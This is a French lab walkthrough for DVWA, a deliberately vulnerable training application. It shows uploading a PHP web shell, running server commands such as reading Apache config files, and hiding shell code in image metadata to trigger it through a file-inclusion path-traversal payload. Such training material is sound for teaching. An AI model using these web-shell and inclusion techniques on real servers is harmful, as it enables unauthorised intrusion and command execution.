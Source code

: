 # Exploitation de la Faille File Inclusion avec DVWA

# Mode difficulté : bas (low)

## Objectif

Télécharger un code malveillant.

## Etat du code côté DVWA

- Aucun contrôle sur les upload.

## Mode opératoire

- Mettez DVWA en mode de difficulté "low"
- Téléchargez le fichier contenant la console php
- A l'aide de l'interface de téléchargement (menu **File Upload**), chargez le fichier `shell.php`. Le message suivant devrait apparaître : "../../hackable/uploads/shell.php succesfully uploaded!"
- Accédez à la page https://votreserveurdwa/DVWA/hackable/uploads/shell.php
- Testez les différentes lignes de commandes interprétables par le serveur :

```shell
pwd
whoami
ls /var/log
less /etc/apache2/apache2.conf
```


# Mode difficulté : élevée (high)

## Objectif

Inclure du code malveillant dans une image.

## Mode opératoire

- Récupérez l'utilitaire exiftool ici : https://exiftool.org/
- Récupérez le code de la console web (shell.php) dans /template/remote-exec/shell.php
- Récupérez une image de petite taille, par exemple : https://image.pi7.org/static/img/pi750kbjpeg.png
- A l'aide de Powershell, exécutez le code suivant :

```powershell
$document = Get-Content "cheminverslefichierShell.php"
.\exiftool.exe -DocumentName="$document" "chemin_vers_image.jpg"
```

- Téléchargez l'image à l'aide de la page de chargement de DVWA (/DVWA/vulnerabilities/upload)
- Testez l'exécution de l'image à l'aide de la faille "File Inclusion" : DVWA/vulnerabilities/fi/?page=file1.php%0A/../../../hackable/uploads/votreimage.jpg
